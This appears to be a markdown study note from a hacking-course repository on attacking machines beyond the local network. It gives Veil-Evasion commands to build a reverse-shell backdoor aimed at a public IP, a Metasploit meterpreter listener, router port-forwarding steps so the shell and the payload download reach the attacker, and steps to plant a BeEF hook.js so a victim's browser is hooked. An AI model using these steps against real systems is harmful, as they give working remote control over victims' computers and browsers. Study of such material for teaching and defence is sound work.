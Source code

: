 # Hacking outside the local network
-   All server-side and client-side attacks work outside the network, only connection needs to be reconfigured
-   It can be done by:
    -   Port forwarding through the router
    -   Installing Kali / tools in the cloud
    -   Port forwarding using SSH
    -   Tunneling services


## Backdoor outside the local network
-   This method shows how to create a backdoor to the pc outside our network. Access rights to the router connected to the internet is needed.
-   to create a backdoor public, public IP is needed. To get public IP, write to google "what is my ip"
-   create backdoor with Veil-Evasion:
```bash
veil-evasion
list
use 9 # choose the reverse payload
set LPORT 8080
set LHOST 89.100.146.187 # use the public IP
generate #generate the payload
```
-   move the file to web server directory (/var/www/html/)
-   setup listener by Mestasploit for the backdoor connection
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.72.129 # use private local IP of attacker machine as before in 09_*.MD
set LPORT 8080
exploit
```
-   now set port forwarding on router:
    1)  get router ip `route -n`
    2)  go to the ip in browser login to the router
    3)  find ip forwarding / forwarding / virtual network
    4)  set public port range to `8080-8080`, target port range to `8080-8080`, target IP to attacker IP (in our case `192.168.72.129`), protocol `Both`
    5)  second rule for downloading the backdoor outside the network: public port range to `80-80`, Target port range to `80-80`, Target IP to attacker IP, protocol `Both`


-   to try this works, just download the payload exe file on victim machine from url and run it


## Hooking browser outside the network using BeEF
-   Start BeEF
-   Place the generated hook.js to the page in web server directory as described before in 10_*.MD, just use public IP instead of local one.
-   now set port forwarding on router, new rule:
    -   public port range to `3000-3000`, target port range to `3000-3000`, target IP to attacker IP (in our case `192.168.72.129`), protocol `Both`


-   to try this if this works, just navigate in the browser of victims machine to the url page with the hook.js (for example: [89.100.146.187/index.html](89.100.146.187/index.html))  


Note: <strong>DMZ forwarding</strong>
-   setting on router, which forwards all requests to any port to one specific IP address
-   alternative to the previous port forwarding setting